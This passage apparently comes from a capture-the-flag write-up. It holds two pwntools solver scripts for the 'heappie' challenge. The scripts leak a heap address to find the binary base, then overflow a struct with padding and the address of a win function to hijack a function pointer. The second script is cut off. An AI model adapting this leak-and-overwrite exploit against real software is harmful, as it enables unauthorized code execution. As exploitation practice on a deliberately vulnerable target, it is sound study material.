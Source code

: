 ```python
base_addr = play_1_addr - play_1_offset
print(f"base_addr: {hex(base_addr)}")

win_runtime_addr = base_addr + win_offset
print(f"win_runtime_addr: {hex(win_runtime_addr)}")


# overflowing struct:
p.sendline(b'1')
p.sendline(b'n')
p.sendline(b'play_2')
p.sendline(b'1')
p.sendline(b'A' * 128 + p64(win_runtime_addr))

# struct containing p64(win_runtime_addr)
p.sendline(b'1')
p.sendline(b'n')
p.sendline(b'play_3')
p.sendline(b'2')
p.sendline(b'eeee')

# now play_3 contains the win runtime address
p.sendline(b'2')
p.sendline(b'2')

p.interactive()
```

## *A bit less dirty* solver

```python
#!/home/kali/.venv/bin/python3
from pwn import ELF, remote, context, p64
import re

exe = './heappie'
elf = context.binary = ELF(exe, checksec=False)
p = remote('pwn.heroctf.fr', 6000)

# filling a first struct to leak an address:
p.sendline(b'1')
p.sendline(b'y')
p.sendline(b'play_1')
p.sendline(b'0')
p.sendline(b'biboup')

# leak address
p.sendline(b'4')

# collect data to parse it (numbers are random, i kept increasing the received data until i had an output i could parse)
data = p.recv(8192*10).decode()
data += p.recv(8192*10).decode()
data += p.recv(8192*10).decode()

# collect the leaked address
matches = re.search('song: (0x[0-9A-Fa-f]+)', data)
matches = str(matches.group(0))[6:]

if matches:
    play_1_addr = int(matches, 16)
    print(f"play_1_addr: {hex(play_1_addr)}")
else:
```